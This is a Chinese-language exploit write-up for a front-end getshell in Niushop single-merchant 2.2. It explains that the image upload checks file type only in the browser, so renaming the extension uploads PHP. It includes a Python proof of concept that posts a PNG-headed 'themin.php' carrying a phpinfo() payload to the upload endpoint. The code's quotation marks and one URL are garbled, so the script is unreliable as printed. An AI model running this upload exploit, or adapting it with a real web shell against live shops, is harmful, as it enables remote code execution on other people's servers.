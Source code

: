 ```yaml
---
title: Niushop 单商户 2.2 前台getshell
id: zhfly3051
---
```


# Niushop 单商户 2.2 前台getshell

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

![image](../img/30ae05703a11c062a74833bac0fae902.png)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![image](../img/7148765a4215e2bf53a73d87c75a7d95.png)

所以导致**前台getshell**

### poc

```
import requests

session = requests.Session()

paramsGet = {“s”:"/wap/upload/photoalbumupload"}

paramsPost = {“file_path”:“upload/goods/”,“album_id”:“30”,“type”:“1,2,3,4”}

paramsMultipart = [(‘file_upload’, (‘themin.php’, “\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>”, ‘application/octet-stream’))]

headers = {“Accept”:“application/json, text/javascript, */*; q=0.01”,“X-Requested-With”:“XMLHttpRequest”,“User-Agent”:“Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,“Referer”:“[http://127.0.0.1/index.php?s=/admin/goods/addgoods",“Connection”:“close”,“Accept-Language”:“en”,“Accept-Encoding”:"gzip](http://127.0.0.1/index.php?s=/admin/goods/addgoods%22,%22Connection%22:%22close%22,%22Accept-Language%22:%22en%22,%22Accept-Encoding%22:%22gzip), deflate”}

cookies = {“action”:“finish”}

response = session.post(“[http://127.0.0.1/index.php](http://127.0.0.1/index.php)”, data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies) `print(“Status code:   %i” % response.status_code)

print(“Response body: %s” % response.content)` 
```

## 参考链接

> https://y4er.com/post/niushop-getshell/